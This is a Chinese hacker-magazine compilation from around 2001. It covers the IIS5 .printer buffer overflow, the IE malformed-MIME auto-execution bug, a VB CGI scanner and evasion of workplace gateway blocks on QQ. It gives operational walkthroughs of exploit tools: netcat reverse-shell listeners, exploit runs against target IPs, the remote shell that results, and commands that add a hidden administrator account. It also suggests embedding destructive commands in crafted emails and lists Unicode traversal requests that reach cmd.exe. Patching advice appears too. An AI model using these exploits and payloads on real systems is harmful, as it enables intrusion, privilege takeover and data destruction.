受攻击的 ISAPI 扩展能执行网络打印协议 IPP，该协议是在 RFCs 2910 和 2911 定义中的产业标准。IPP 能提供通过 HTTP 在网络打印请求的服务。例如，通过使用 IPP，远离办公室的工作人员可以在网上传递打印任务给他联网工作区域的打印机并打印出来，他也能发现打印是否完全无误。

Win2000 引进了本地网的网络打印，它的使用用户能直接指定 URL 打印，也可以通过自己的浏览器查询与打印有关的信息。

### 5. 在 Win2000 的网络打印 ISAPI 扩展存在什么错误？

ISAPI 扩展在处理用户打印请求的部分代码中，有一个未经检查缓冲长度的验证，假如发生的打印请求是比较特殊的，那么就有可能导致缓冲溢出。

### 6. 什么是缓存溢出？

缓存溢出又称为缓冲溢出。缓冲区指一个程序的记忆范围（领域），该领域是用来储存一些数据，如电脑程序信息，中间计算结果，或者输入参数。把数据调入缓冲区之前，程序应该验证缓冲区有足够的长度以容纳所有这些调入的数据，否则，数据将溢出缓冲区并覆写在邻近的数据上，当它运行时，就如同改写了程序。假如溢出的数据是随意的，那它就不是有效的程序代码，当它试图执行这些随意数据时，程序就会失败。另一方面，假如数据是有效的程序代码，程序将会按照数据提供者所设定的要求执行代码和新的功能。

### 7. 在配置服务器时用的是 IIS5.0 的安全清单，依照它清除所有不必要的 ISAPI 扩展的建议后，我还会受到攻击吗？

假如你的 ISAPI 扩展已经被清除，网络打印请求不能响应，漏洞就不会产生，因此，假如你遵从了清单的建议，清除 ISAPI 上的网络打印功能后，你将不会受到此漏洞的攻击。

### 8. 我使用了在 IIS5.0 安全模板下的安全模板，有效果么？

清单下的安全模板消除了 ISAPI 扩展的内容，因此，如果你使用了，就不会受到这漏洞引起的攻击。

### 9. 我用了 Win2000 网络打印服务器安全工具去配置我的网络服务器，那样做能帮我消除这漏洞的隐患吗？

可以，该工具包含了有关通过网络服务器配置的一些问卷调查，除非你特别提示要求保留网络打印功能，否则，该工具可以使 ISAPI 扩展功能失效。

### 10. 防火墙能够阻止入侵者利用这个漏洞吗？

如果设置防火墙锁住 HTTP 和 HTTPS 请求，入侵者就不能利用这个漏洞进行攻击，但你的网站服务器同时也就失去 HTTP 和 HTTPS 服务的功能，所以对于开设 Web 服务的服务器来说，防火墙不能阻止利用这个漏洞。

### 11. 该漏洞影响 IIS4.0 服务器吗？

不影响。

### 国产 .printer 远程溢出攻击软件

#### 使用实例

- 1. 小榕的 IIS5Exploit

严格地说，这软件并不是小榕写的，而是小榕根据 Jill.c 改编优化部分代码编译出来的。不过这软件确实很好，特别推荐大家使用。

下载地址：http://www.netxeyes.com/IIS5 Exploit.zip

压缩包里有含有 3 个文件：IIS5Exploit.exe、nc.exe、readme.txt。

#### IIS5 .Printer Exploit 使用说明：

本程序适用于英文版 IIS 5.0

- 1. 首先在本机用 NC 开一个监听端口。

```
C:\>nc -l -p 99
```

- 2. 运行 IIS5Exploit

```
D:\>jill xxx.xxx.xxx.xxx 211.152.188.1 333
===IIS5 English Version .Printer Exploit.===
===Written by Assassin 1995 - 2001. http://www.netXeyes.com===
Connecting 211.152.188.1 ...OK.
Send Shell Code ...OK
IIS5 Shell Code Send OK
```

其中 211.152.188.1 指向本地 IP。

稍等片刻，如果成功，在本机 NC 监听的端口出现：

```
C:\>nc -l -p 99
Microsoft Windows 2000 Version 5.00.2195
C Copyright 1985 - 1999 Microsoft Corp.
C:\>
```

可以执行命令。如：

```
C:\>net user hack password /add
The command completed successfully.
C:\>net localgroup administrators hack /add
```

这样就创建了一个属于 Administrator 组的用户 Hack，密码为 password。

使用这软件实际上要开两个 MS-DOS 窗口，首先运行 `nc -l -p 99`，当然也可以把端口定义为其他的，建议把开的端口改高些，避免在测试的同时恰好别人在扫描你的端口，影响你正常的测试。小榕在写这说明时也许很急，写运行 IIS5Exploit 也没写好，正确的是 `IIS5Exploit 目标主机的IP 攻击者IP 端口`，端口要与自己 NC 开的端口一致。为了提高攻击的成功率，首先必须要明确所攻击的目标主机一定是开有 HTTP/HTTPS 服务的 Win2000。我们可以通过 Telnet 目标主机的 80 端口 `Get Index.htm` 来判断对方 Win2000 的版本是不是 `Microsoft Windows 2000 Version 5.00.2195`，也可以用 Eyas 提供的 ScanPrinter 来扫描获得。

- 2. sunx.org 提供的 iis5hack

下载地址：http://www.sunx.org/mysoft/iis5hack.zip

运行参数：

- IIS5hack <目标主机 IP> <WEB 端口 80> <主机类型>
  - 中文 Win2000 : 0
  - 中文 Win2000 sp1 : 1
  - 英文 Win2000 : 2
  - 英文 Win2000 sp1 : 3
  - 日文 Win2000 : 4
  - 日文 Win2000 sp1 : 5

```
E:\HACK\print>iis5hack XX.XX.XX.XX 80 3
iis5 remote .printer overflow. writen by sunx
http://www.sunx.org
for test only , dont use to hack ,
connecting...
sending...
Now you can telnet to 99 port
good luck
c:\telnet XX.XX.XX.XX 99
Microsoft Windows 2000 Version 5.00.2195
C Copyright 1985 - 2000 Microsoft Corp.
C:\WINNT\system32>
```

已经进入目标主机，你想干什么就是你的事啦。该软件的优点是针对多种语言版本的 Win2000 系统。缺点是溢出成功后目标主机的 IIS 停止服务，并且得到 Shell 后要在较短时间内完成你想做的事，时间长的话连 Shell、IIS 都会死掉；不能随意定义目标主机的 Shell 端口。在退出 Telnet 服务时也一定要记住正常 Exit 退出，否则目标主机的 IIS 也会死掉。我在测试过程中发现只是两三分钟时间对方的 IIS 就死了，看来把这软件当做拒绝服务攻击型的软件也不错。

### 3. isno.yeah.net 提供的 Cniis、Iisx

isno 最新的 .printer 漏洞攻击软件是 iisx，它是 CNIIS 的升级版本，按照作者的使用说明我们可以看到：

使用方法：iisx <目标主机> <sp> < -p| -a| -r attackhost attackport>

sp: 0 -- 目标没有安装 SP, 1 -- 目标安装了 SP1。提供 3 种对 IIS5 .printer 漏洞的攻击方式：

- `-p -- 对攻击目标运行 iisx 66.77.88.99 0 -p`
  在 66.77.88.99 上开一个端口 7788，可以直接 Telnet 66.77.88.99 7788。
- `-a -- 对攻击目标运行 iisx 66.77.88.99 0 -a`
  在 66.77.88.99 上添加一个管理员帐号 hax，其密码也为 hax，可以使用 `net use \\66.77.88.99\ipc$ "hax" /user:"hax"` 建立连接。
- `-r -- 反向连接（类似于 jill 的方式），具体实施方法如下：`
  先在一台机器 111.222.333.444 上运行 `nc -vv -l -p 5432`，然后对攻击目标运行 `iisx 66.77.88.99 0 -r 111.222.33.444 5432`，这时在 111.222.333.444 就会出现来自 66.77.88.99 的连接。

对于该软件，我没有做过多的测试，不过我们可以看到，第一种方法和 Sunx 的 IIS5HACK 是一样的，只不过定制溢出的 Telnet 端口不同。对于固定溢出端口，我总觉得不是那么好，至少在你测试的时候别人也在扫描相同的主机时，你的行为就很容易被人发现。

对于第二种方法，只能攻击那些安全技术非常贫乏的网络管理员了，因为添加这样一个密码和用户 ID 都一样的超级用户都能成功的话，那管理员连密码长字节和特殊字符化都不设定，那水平就可想而知了。

对于第三种攻击方法和 Jill.c 差不多，所以也不再做详细介绍。

### 一些扫描 .printer 漏洞的程序测试

#### 1. Eyas 编写的扫描程序 Cgicheck

Eyas 是一个很有进取精神的小伙子，现在国内某安全公司工作，在微软的 .printer 漏洞公告出来后就写了一个专门扫描该漏洞的工具 Scanprinter。由于时间仓促，该软件尽管可以扫描该漏洞，但在定制扫描线程和超时延迟方面没有写好，使用起来不是那么如意。

本来不想介绍他的 Scanprinter，恰好在我写到这部分内容时，他给我传来他的新作品 Cgicheck，这也是个测试版的 DOS 命令工具，从文件名我们可以看到，他把这软件写成类似 Twwwscan 那样的 CGI 漏洞扫描工具。

现在让我们看看使用效果。

以下是运行在 AMD850 128MB 64KISDN WIN98SE 下的扫描情况：

```
E:\>CGICHECK 192.168.0.1
203.212.4.18 has .printer mapped.
203.212.4.19 has .printer mapped.
203.212.4.227 has .printer mapped.
* * * * 100% Wait 4 seconds to exit * * * *
203.212.4.237 has .printer mapped.
203.212.4.238 has .printer mapped.
All done.
Complete.Scan 254 targets use 15.8 seconds.Speed 16.1/s
```

从扫描结果来看这软件确实有很大的提高，建议 Eyas 在以后软件的升级中让软件可以自定义所需要扫描的内容，毕竟在针对某网段的扫描，我们不需要把所有的 CGI 漏洞都扫描，要知道有些漏洞已经很少看见了，加进去只耽误扫描的效率。

#### 2. PL 扫描程序

以下是一个用 Perl 编写的扫描程序


实际上这个扫描程序是一个比较简单的 PL 扫描，命令格式 `Webexplt.pl ip` 只能针对某一 IP 地址进行检测，通过发送 `GET /NULL.printer HTTP/1.0\n` 请求，然后传送一超长字符串给目标主机，去检测是否存在 .printer 漏洞。

#### 3. 其他的一些扫描软件

例如 www.netguard.com.cn、www.xfocus.org 发布的 Easyscan、X-scaner 都专门做了针对 Printer 漏洞的扫描，大家可以试试。

## 漏洞的消除

最好的办法是安装微软针对这个漏洞发布的补丁。

补丁下载地址：

http://www.microsoft.com/Downloads/Release.asp?ReleaseID=29321

在你无法获得补丁的情况下，我们也可以通过手动的方式设置你的服务器：设置 → 控制面板 → 管理工具 → INTERNET 服务管理器 → 右键单击你的站点。例如我的是 Badboy-f5gzewyd → 属性 → 编辑 WWW 服务 → 主目录 → 配置 → 应用程序配置 → 找到 .printer → 清除。但这样操作后你将丧失网络打印的功能，不过总比被人利用这漏洞进行入侵要好。

## 利用错误的 MIME 头

## 实行攻击

编者按：MIME（Multipurpose Internet Mail Extension，多用途的网际邮件扩充协议）这个漏洞（MS01-020 漏洞公告里面有详细的介绍）最可怕的地方就是利用 Outlook 或者是 IE 没有打补丁的版本打开一个电子邮件或其他的故意构造转接 URL 的文件的时候。这种类型的文件包括 htm、eml 等等，可以在你的机器上面以当前用户的身份执行程序。能执行的程序包括本机程序、构造批处理、远程构造可执行程序等等。这个漏洞主要是针对于个人用户来说的，如果我们想很好的保护自己电脑的安全，就要了解一些保护的措施。仔细阅读这篇文章，你就能保护你的计算机不受侵害。

文/badboy

## MIME 的简单介绍

### 1. MIME 的基本概念

你可能在使用 CGI 程序时接触过 MIME 类型，其中有一行叫作 Content-type 的语句，它用来指明传递的是 MIME 类型的文件（如 Text/Html 或 Text/Plain）。MIME 是 Multipurpose Internet Mail Extension 的缩写，起初定义为在 Internet 电子信件中的编码方法，现在已经演化成一种指定文件类型 Internet 的任何形式的消息：E-mail，Usenet 新闻和 Web 的通用方法。如果 Internet 上有两个程序在联系，其中一个发文件，另一个则接收文件。当发送的是 MIME 类型的文件时，接收程序通过识别会告诉你它是否能够处理。每一种文件格式都有一组一致的名称，至于是否匹配，这不应该成为你所担心的问题，多数标准文件都有对应于 MIME 类型的文件格式。

### 2. MIME 类型的工作原理

MIME 类型有两种格式：一个是文件的一般格式（如文本、图像或应用程序），另一个就是文件的特殊的格式（对文本有 Html、Plain 格式，对图像有 GIF、JPEG 格式）。比较典型的 MIME 类型一般是 Text/Html、Image/Gif、Video/Quicktime 或 Application/Postscript。一旦一组标准的 MIME 类型已经被定义，新的类型必须在 IANA（Internet Assigned Numbers Authority）中登记。新的 MIME 类型在没有正式认可时必须采用以 X-开头的命令指定，如 `audio/x-noise-from-join` 或 `application/x-httpd-cgi`。在建立 NCSA 服务器时它可以运行 CGI 程序，包含时也是一样 `application/x-httpd-cgi` 和 `x-serverd-parsed-html`。

### 3. MIME 类型在 Web 服务器和浏览器上的应用

Web 服务器发送文件到浏览器时将用到 MIME 类型。其大致过程如下：

- 1. 浏览器通过 URL 向服务器发出读文件请求；
- 2. 服务器接到浏览器的请求后，从文件系统中取出相应的文件；
- 3. 服务器在已知的 MIME 文件扩展对照表中查找该文件的扩展名，如 Gif、Html、Txt 等等；
- 4. 服务器向浏览器发送一个 Content-type 头，指示将要发送的文件的类型；
- 5. 浏览器接到 Content-type 后，对它是否可以单独处理、或还要调用另一个浏览器等问题进行辨别。

这个过程最重要的部分是服务器保存一个固定的文件扩展名与 MIME 类型的对照表，这个表决定了服务器可识别的文件类型。在 Web 中共享的文件一般都有正确的文件扩展名，并同正确的 Content-type 一起发送。

如果你想发送一个超出 Web 定义的新类型的文件，或者你短时间内突然得到许多文件，而它们都有新的扩展名，这时你必须配置你的服务器来识别 MIME 类型或新的扩展名。

### 4. MIME 类型与浏览器

通常浏览器都有一个 MIME 类型的文件扩展名对照表，这个表一般只能用于“Open File”对话框或者一个文件：URL 命名打开的本地磁盘文件，或用除了 HTTP 之外的方法从服务器取回的文件。在多数情况下，浏览器会忽略服务器所传文件的扩展名而只注意 Content-type。和服务器一样，浏览器通常也有一个 MIME 类型与其他浏览器的对照表。这样你就可以设置浏览器以便处理从 Web 服务器得到的文件，浏览器使它从 Content-type 头得到的值与浏览器的名字和地址相匹配。

服务器配置文件如果被加入了新的文件类型，这时很有可能浏览器无法识别它得到的新文件。如果你增加了这些文件类型并且想使用这些类型，最好在作品中加上说明，注明传递的文件类型、使用过的 MIME 类型以及与读此文件格式的浏览器的关系等等。

## 错误的 MIME 头漏洞的发现

该漏洞是由 Juan Carlos Garcia Cuartango 安全小组发现的，该小组发现 MIME 在处理不正常的 MIME 类型中存在问题，攻击者可以建立一个包含可执行文件附件的 Html Email 并修改 MIME 头，使 IE 不正确处理这个 MIME 所指定的执行文件附件。一般情况下如果附件是文本文件，IE 会读它；如果是 VIDEO CLIP，IE 会查看；如果是图形文件，IE 就会显示它；但如果是一个 EXE 文件，IE 就会提示用户是否执行。具有危害性的是，当攻击者更改 MIME 类型后，IE 就会不经过提示用户是否执行而直接运行，从而使攻击者加在附件中的程序或者攻击命令能够按照攻击者设想的情况实行。这些内容我们将在后面做分析。

Windows 95/98/ME、WinNT 4.0、Win2000 下的：

- Microsoft Internet Explorer 5.0
- Microsoft Internet Explorer 5.01
- Microsoft Internet Explorer 5.5

均存在该漏洞。

该安全小组提供一简单的执行 Hello.eml 程序进行测试。

将以下程序编辑为 Hello.eml 文件即可


点击 Hello.eml 文件后，将会开启 Outlook 和 MSDOS 窗口，显示当前文件所在文件夹的查看状态。因为仅仅是 DIR 命令，所以对用户来说不存在什么危害，该文件只是在没有任何提示下已经运行了 DIR 命令。在 Windows\Temp 目录里我们可以看到这个被执行的临时文件 Hello.bat、Hello 1.bat，这个文件是由 Hello.eml 里面的代码产生的，而在 Outlook 里面我们只能看见一个 0 字节的文件 ATT00004.txt。当你关闭 Outlook 后，Hello.bat 这个临时文件就看不到了。

## MIME 与 Command、cmd

### 命令的结合

在上部分内容的例子里，我们可以看到那信件的最后部分的内容为：

```
--1
Content-Type    audio/x-wav
name="hello.bat"
Content-Transfer-Encoding    quoted-printable
Content-ID    <THE-CID>
echo OFF
dir *.*
--1
```

它所产生的 Hello.bat 文件内的内容是 `Dir *.*`。实际上这就是一个最简单的 MIME 错误头漏洞与 Command、Cmd 外部命令的最简单结合。从这里，我们是不是可以尝试把 Dir 命令变成其他的命令方式呢？事实说明，MS-DOS 下一切命令是可以替换这部分内容的。对于 Win9x 用户来说，只要他的 IE 浏览器是 5.0、5.01、5.5 版本，在没打补丁的情况下，攻击者完全可以利用欺骗的方式让你打开含有攻击命令的 MIME 错误头的 Email 文件，达到攻击的目的。例如 Format、Deltree、Move 等一切 MS-DOS 下的命令。而对于 WinNT、Win2000 用户，尤其是那些不安分守己的系统管理员，利用公司的主服务器上网且对网络安全知识贫乏的情况下，攻击者可以在以上那封 Email 信件里加上诸如：

```
net user test 1234567 /add
```

```
net localgroup administrators test /add
```

这样的命令增加用户或者超级用户权限，进一步达到入侵的目的。因为命令比较短小，因此攻击者未必需要给你发这样的信件，他可以在某个网页里加入自动启动的方式，骗你打开，达到攻击目的。

## 错误 MIME 头调用 VBS 格式

### 文件

我们先看以下例子：


将该程序编辑存为一个 Eml 格式的文件，例如 Vbs.eml。我们运行它，可以看到屏幕弹开一个 VBScript 窗体，并可以看见在 C:\下建立了一个 Deleteme.txt 文件，而邮件的附件中为 Att00002.txt 的一字节为 0 的文件。如果你安装了超级解霸之类的软件，运行 Vbs.eml 后超级解霸会自动执行。对于这种调用 VBS 文件的形式，会有多大危害呢？想一下，爱虫病毒是怎么样的？

爱虫病毒还需要骗你执行它，但一旦和错误 MIME 头漏洞结合起来，就根本不需要你执行了，只要你收了这封信且阅读它，你就中招了。

从 5 月 8 日开始，一个名叫 VBS.happytime 的病毒开始在网络流行，已经感染了 10 多万台电脑，而且还有进一步扩大的趋势，但目前它还没有和错误的 MIME 头漏洞结合，一旦好事者把两个关联起来，后果将不堪设想。

## 错误 MIME 头信件自动执行

### .EXE 文件

漏洞发现者给我们展示了这样一个 Exe.eml 文件（光盘中附有）。

我们可以从该文件中看到

```
Content-Transfer-Encoding base64
```

```
Content-ID <THE-CID>
```

这说明攻击者可以采用 BASE64 编码将一个可执行文件直接附带进来，不需要利用本地文件系统的已有文件。我们先执行这个例子，把以上文件源码存为 Exe.eml 文件，运行它，我们可以看到 hello.exe 这个文件自动被执行，多么可怕的事啊。在这之前，一些攻击者想法子骗被攻击目标执行修改过的木马等后门程序，而现在一切都是自动执行，唯一的条件就是被攻击目标使用 IE5.0、IE5.01、IE5.5，而这种浏览器的用户是目前世界上最多的，稍微有点入侵知识的人对这点的危害是十分清楚的。

对于利用错误 MIME 头漏洞执行 EXE 的傻瓜式软件，中国的一位黑客软件设计者小榕已经在他的网站提供软件下载。对于不会编写 BASE64 编码的入侵者来说，可以利用一些信件软件，如 Foxmail，就可以很容易得到你想得到的一些木马或者攻击性软件的 BASE64 的编码格式文件，具体的操作方法是：你用 Foxmail 写一封信，然后把你想得到 BASE64 编码的软件增加到附件中去，然后查看信件的全部信息，这样就可以得到该 EXE 文件的 BASE64 编码格式的代码。而实际上，无论哪种方式利用这漏洞进行攻击，参照以上例子，是很容易

## 实行攻击方式的入侵思维

我们了解入侵思维并不是为了利用这些漏洞和方法去攻击别人，而是从攻击者的思考方式去猜想别人的攻击，以便了解攻击者怎么设圈套和利用哪些方式去攻击你呢？正所谓知彼知己，百战不殆。

- (1) Outlook 或者 Foxmail 等工具是无法直接编写出这种错误的 MIME 头信件的，攻击者一般来说是通过记事本这样的编辑工具编写错误的 MIME 头信件，然后利用 Email 工具的导入功能，再把信件发出去。
- (2) 攻击者也可以给你写一封 Html 格式的信件，或者叫你前往某 Web 页面浏览某一特定的页面，在这页面里，攻击者利用一些 URL 转向技术，迫使你收到早已放在某一主机上的错误 MIME 头格式的攻击性文件。
- (3) 利用一些黑客为这漏洞编写的特定的攻击性软件，如前面提到的小榕写的那个 Oeexample。
- (4) 在攻击性的 MIME 信件中嵌入对方国家少见的病毒木马。
- (5) 攻击者一定会修改 MIME 的头部信息，让被攻击者难以发现攻击来源。

## 错误的 MIME 头漏洞的防范

### 及解决办法

- (1) 最好的方法是不要使用 IE 和 Outlook/Outlook Express 浏览和接受 Email 信件，可以用其他的浏览器 Netscape、Netants、Wget 工具代替 IE，用 Foxmail 等工具代替 Outlook。如果需要使用，就要安装微软提供的安全补丁，对于一般上网用户，可以通过开始 - Windows Update 在线自动升级你的 Windows 和 IE、Outlook/Outlook Express。也可以到下面地址获取补丁：
  http://www.microsoft.com/windows/ie/download/critical/Q290108/default.asp
- (2) 不要受陌生人的诱惑打开别人给你的 URL，如果确实想看，可以通过一些下载工具，把页面下载，用记事本等一些文本编辑工具打开查看代码。
- (3) 在只能使用 IE 浏览器和资源管理器的情况下，建议禁止“文件下载”、禁止以 Web 方式使用资源管理器、最大限度禁止活动内容特性、设置资源管理器成“始终显示扩展名”、永远不直接从 IE 浏览器中选择打开文件、取消“下载后确认打开”这种扩展名属性设置。

## 使用普通用户来执行超级用户的命令

文/劲刀狂舞

在 NT 中的用户管理执行的可以普通用户来执行超级用户的命令，在 Unix 中这个体现的更加多。不过这个经常会造成很多的安全隐患。下面劲刀狂舞来解释一下这个命令。

一般 UNIX 是通过 asroot 命令来实现这个操作的。

asroot 命令的语法结构如下：

```
/tcb/bin/asroot/command args
```

命令中：

command 这里主要是通过 asroot 执行的命令。

args 这里是 command 的选项，有的命令需要它，而有的命令不需要它。比如删除命令 rm，一定要有 args 的参数（删除的名称）

用户使用 asroot 时，必须要得到相应的授权。普通用户所需要的授权包括：

- 1. root 一级系统授权，具有这个授权才能运行 /tcb/files/rootcmds/ 目录下的命令。
- 2. root 子系统授权的二级子系统授权。二级子系统授权的名字是说要使用的命令的名字。比如，在普通的用户下，要使用 shutdown 命令，就要得到这种授权形式。
- 3. 核心授权 execsuid

第一部分：告诉普通用户可以执行哪些命令。这个也是进行 Root 子系统的二级子系统授权。

第二部分：告诉系统哪些普通用户可以执行超级的命令，这个是 Root 一级子系统授权和核心授权。

第一部分配置：

- 1. 是将命令拷贝到目录 /tcb/files/rootcmds 下，系统默认的只有 shutdown 命令。
- 2. 修改文件权限，使得它们的权限和文件控制数据库的权限相匹配。
- 3. 编辑授权文件 /etc/auth/system/authorize，把要使用的命令加到 Root：大同的那一行去。

第二部分配置：

具体的系统具体制定。

## 利用 Winsock 控件 编写 CGI 漏洞扫描程序

编者按：对于一个黑客或者是一个安全界人士来说，漏洞扫描程序很重要，目前网上流行的一些漏洞扫描程序大多数是用 C，C++ 开发的，也许有的 VB 爱好者很苦恼，现在对于 VB 和网络安全有兴趣的读者朋友们，就不要发愁了。本文由 Winsock 控件的基本属性、方法、事件入手，引导我们一步一步由浅入深的用 VB 编写 CGI 漏洞扫描工具。该文还讲述了如何实现多线程的技术。

文/卫顺盛

### TCP（Transmission Control Protocol 传输控制协议）基础

数据传输控制协议允许创建和维护与远程计算机的连接。连接两台计算机就可彼此进行数据传输。如果创建客户应用程序，就必须知道服务器计算机名或者 IP 地址（Remote Host 属性），还要知道进行“侦听”的端口（Remote Port 属性），然后调用 Connect 方法。

如果创建服务器应用程序，就应设置一个收听端口（Local Port 属性），并调用 Listen 方法。

当客户计算机需要连接时就会发生 Connection Request 事件。为了完成连接，可调用 Connection Request 事件内的 Accept 方法。

建立连接后，任何一方计算机都可以收发数据。为了发送数据，可调用 SendData 方法。

当接收数据时会发生 DataArrival 事件。调用 DataArrival 事件内的 GetData 方法就可获取数据。

### Winsock 控件描述

要创建一个 CGI 漏洞扫描程序，我们就需要使用 Winsock 控件，下面列出了 Winsock 控件的介绍。请把它看完，因为这是我们下一个步骤的前提条件。

| 属性/事件 | 说明 | 方法/事件 | 说明 |
| :--- | :--- | :--- | :--- |
| LocalHostName | 本地机器名 | Listen | 方法用于服务器程序，等待客户访问。格式：Winsock 对象.Listen |
| LocalIP | 本地机器 IP 地址 | Connect | 方法用于向远程主机发出连接请求。格式：Winsock 对象.Connect 远程主机 IP 远程端口 |
| LocalPort | 本地机器通信程序的端口 (0<端口<65536) | Accept | 方法用于接受一个连接请求。格式：Winsock 对象.Accept Request ID |
| RemoteHost | 远程机器名 | SendData | 此方法用于发送数据。格式：Winsock 对象.SendData 数据 |
| RemotePort | 远程机器的通信程序端口 | GetData | 用来取得接收到的数据。格式：Winsock 对象.GetData 变量 数据类型 最大长度 |
| State | 连接的当前状态 | Close | 关闭当前连接。格式：Winsock 对象.Close |
| Protocol | 使用 TCP 或 UDP 协议 | | |
| ConnectionRequest | 有请求连接到达时产生 (服务器端) | | |
| Connect | 连接建立好，可以进行通信时触发 (客户端) | | |
| DataArrival | 有数据到达时触发 | | |
| Error | 发生错误时发生 | | |
| SendProgress | 数据传送进度 | | |

| 常数值 | 描述 |
| :--- | :--- |
| sckClosed 0 | 缺省值，关闭 |
| sckOpen 1 | 打开 |
| sckListening 2 | 侦听 |
| sckConnectionPending 3 | 连接挂起 |
| sckResolvingHost 4 | 识别主机 |
| sckHostResolved 5 | 已识别主机 |
| sckConnecting 6 | 正在连接 |
| sckConnected 7 | 已连接 |
| sckClosing 8 | 正在关闭连接 |
| sckError 9 | 错误 |

### 一个简单的实例

- 1. 新建工程，添加 Winsock 控件。
- 2. 输入如下代码

```vb
Private Sub Form_Load()
    MsgBox Winsock1.LocalIP '显示本地 IP
    With Winsock1
        .LocalPort = 32555 '定义本地端口，通过这一端口连接服务器
        .RemoteHost = "127.0.0.1" '定义服务器的 IP 也可以输入域名。
        .RemotePort = 80 '要求连接的服务器端口，80 为 HTTP 服务
        .Connect '连接服务器
    End With
End Sub
```

我们通过这一段很简单的代码，熟悉了一下 Winsock 连接服务器的过程。这个程序没有用到其他的属性和方法，旨在让你了解一下如何连接服务器。你可以试着用其它的属性和方法来使得它返回信息。

## CGI 漏洞扫描器工作原理

首先，我们用 Winsock 连接到远程服务器的 HTTP 服务端口，接着发送 GET 请求，这时，服务器将返回这个文件是否存在。如果不存在，那么在返回的信息里将包含“HTTP 404”的信息，说明不存在该漏洞。我们只需要通过判断 DataArrival 事件中得到的数据里有没有包含 HTTP 404 就可以了。在本程序中，我们将检查 Unicode 漏洞。我们可以通过下列请求来判断：

```
GET /scripts/..%c0%af..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe /c + dir + c \ HTTP/1.0
GET /msadc/..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe /c + dir + c \ HTTP/1.0
GET /_vti_bin/..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe /c + dir + c \ HTTP/1.0
GET /_mem_bin/..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe /c + dir + c \ HTTP/1.0
GET /cgi-bin/..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe /c + dir + c \ HTTP/1.0
```

## 算法

### （1）单线程算法

单线程算法即我们只创建一个 Winsock 控件，利用这一个 Winsock 控件完成扫描。这种方法速度较慢。但代码简单易懂，适合于入门，但其最大的弱点在于如何判断当前收到的是哪一个命令。利用单线程，很难得到确切的漏洞利用方法。但却能判断出对方是否存在漏洞。

### （2）多线程算法

多线程算法即动态创建多个 Winsock 控件。这样可以大大加快扫描速度，并且如果定义相应的数组。比如，我们可以用 Load Winsock n 来动态创建一个 Winsock 控件。相应的由 CGI n 字符变量定义了一个 HTTP 请求，那么，在 DataArrival 事件中，我们就可以通过 Index 来判断当前正在扫描哪个漏洞。比如：

```vb
Dim CGI As String
CGI(1) = "Get..."
...
CGI(20) = "..."
```

```vb
For I = 1 To 20
    Load Winsock(I)
    Winsock(I).Remote...
    ...
    Winsock(I).Connect
Next I
...
Private Sub Winsock1_DataArrival(ByVal bytesTotal As Long, Index As Integer)
    ...
    MsgBox "发现漏洞 请求：" & CGI(Index)
End Sub
```

以上是多线程扫描的一个例子。利用 Load Winsock(I) 创建了 1 ~ 20 个控件，对应了 1 ~ 20 个 CGI 请求。具体的例子可以看笔者编写的 Eastscanner 端口扫描器的源代码，里面就可以动态创建 Winsock 控件。

代码分析：

```vb
Private Sub Form_Load()
    Dim CGI() As String
    '定义 CGI 漏洞列表
    CGI(1) = "GET /scripts/..%c0%af..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe /c + dir + c \ HTTP/1.0"
    CGI(2) = "GET /msadc/..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe /c + dir + c \ HTTP/1.0"
    CGI(3) = "GET /_vti_bin/..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe /c + dir + c \ HTTP/1.0"
    CGI(4) = "GET /_mem_bin/..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe /c + dir + c \ HTTP/1.0"
    CGI(5) = "GET /cgi-bin/..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe /c + dir + c \ HTTP/1.0"

    '控件的名字为 Winsock1
    With Winsock1
        .RemoteHost = "127.0.0.1" '这里设置对方 IP
        .RemotePort = 80 '连接的端口号。
    End With
    For I = 1 To 5
        If Winsock1.State = 0 Then Winsock1.Connect
        Do While Winsock1.State <> 7 '判断有没有连接上
            DoEvents '这是必需的，让当前进程转给其他程序
        Loop
        'Winsock 已经连接到远程主机
        Winsock1.SendData CGI(I) & vbCrLf '发送 GET 请求
    Next I
End Sub
```

```vb
Private Sub Winsock1_DataArrival(ByVal bytesTotal As Long)
    Dim strData As String
    Winsock1.GetData strData '得到字符
    If InStr(1, strData, " HTTP 404") = 0 Then MsgBox "发现 Unicode 漏洞" '判断是否有 HTTP 404
End Sub
```

## 小结

通过实例，我们可以看到 Winsock 控件是如何利用的。你可以扩展本程序的功能，比如增加更多的 CGI 请求，增添多个 Text 和 Command 控件，这样可以在运行时自定义对方 IP。总之，一定要自己动手。这也是学习编程的最好方法之一。

## 突破网关限制

### 随心所欲


文/eyas

### 一、欺骗网关上 QQ

QQ 乃朋友之间在网络上感情交流、技术交流的必备之品，少了它怎么能行呢？但是很多公司通常为了提高员工的工作效率，一般禁止员工在工作时间上 QQ。一是从行政上制裁，如发现一次扣 xxx 工资之类；二是从技术上封锁，例如在网关上做些限制。当然这样做无可厚非。但是下了班之后，封锁仍然不会打开，这样就很不爽了。这时候想要上 QQ 那可就要自己想办法了。

正所谓知己知彼，百战不殆。如果我们知道网关是通过什么技术来封锁的话，那么要突破就相对容易多了。首先我们换个角度来想想，假如我们是网管，会怎么样来实现封锁呢？QQ 用的是 UDP 协议，默认是用 4000 端口与外界通讯，那么我们在网关上把源端口是 4000 的 UDP 包丢弃就可以实现封闭 QQ 的目的了。怎么突破？很简单的，我们让 QQ 不用 4000 端口就可以了。那么怎样改端口呢？直接改的话很麻烦，但我们可以间接的改啊。QQ 默认是用 4000 端口，如果 4000 被占用的话，那么它就会用 4001，依此类推。因此让我们在启动 QQ 之前，先把 UDP 4000 - 4010 端口都占用掉，那么 QQ 启动的时候，就会顺理成章地使用 4011 端口了。很简单，不是吗？现在我们就来写个小程序实现这个目的。

鉴于篇幅限制也为了读者使用方便，程序代码不在刊中列出，放在本刊配套光盘中。


如果网管把全部 UDP 数据包都丢弃，那么这招就失灵了。怎么办？请接着看下面的内容。

### 二、通过 SOCKET 代理上 IRC

